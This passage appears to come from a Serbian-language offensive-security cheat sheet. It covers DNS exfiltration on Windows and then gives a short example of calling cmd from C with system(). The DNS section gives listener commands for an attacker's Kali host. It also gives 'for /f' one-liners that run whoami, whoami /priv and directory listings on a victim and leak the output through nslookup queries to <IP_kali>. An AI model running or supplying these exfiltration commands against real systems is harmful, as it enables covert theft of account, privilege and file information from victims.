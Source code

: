 ```bash
sudo responder -I <iface> #Active
sudo tcpdump -i <iface> -A proto udp and dst port 53 and dst ip <KALI_IP> #Passive
```

#### Žrtva

**Tehnika `for /f tokens`**: Ovo nam omogućava da izvršimo komande, dobijemo prvih X reči svake linije i pošaljemo ih preko DNS-a na naš server.

```bash
for /f %a in ('whoami') do nslookup %a <IP_kali> #Get whoami
for /f "tokens=2" %a in ('echo word1 word2') do nslookup %a <IP_kali> #Get word2
for /f "tokens=1,2,3" %a in ('dir /B C:\') do nslookup %a.%b.%c <IP_kali> #List folder
for /f "tokens=1,2,3" %a in ('dir /B "C:\Program Files (x86)"') do nslookup %a.%b.%c <IP_kali> #List that folder
for /f "tokens=1,2,3" %a in ('dir /B "C:\Progra~2"') do nslookup %a.%b.%c <IP_kali> #Same as last one
#More complex commands
for /f "tokens=1,2,3,4,5,6,7,8,9" %a in ('whoami /priv ^| findstr /i "enable"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i <IP_kali> #Same as last one
```

Takođe možete **preusmeriti** izlaz, a zatim ga **pročitati**.

```
whoami /priv | finstr "Enab" > C:\Users\Public\Documents\out.txt
for /f "tokens=1,2,3,4,5,6,7,8,9" %a in ('type "C:\Users\Public\Documents\out.txt"') do nslookup %a.%b.%c.%d.%e.%f.%g.%h.%i <IP_kali>
```

## Pozivanje CMD-a iz C koda

Da biste pozvali CMD (Command Prompt) iz C koda, možete koristiti funkciju `system()`. Ova funkcija omogućava izvršavanje CMD komandi iz C programa.

Evo jednostavnog primera kako koristiti `system()` funkciju:

```c
#include <stdlib.h>

int main() {
    system("cmd /c <komanda>");
    return 0;
}
```

U ovom primeru, `<komanda>` treba zameniti sa željenom CMD komandom koju želite da izvršite. Na primer, ako želite da izvršite komandu `ipconfig`, vaš kod bi izgledao ovako:

```c
#include <stdlib.h>

int main() {
    system("cmd /c ipconfig");
    return 0;
}
```
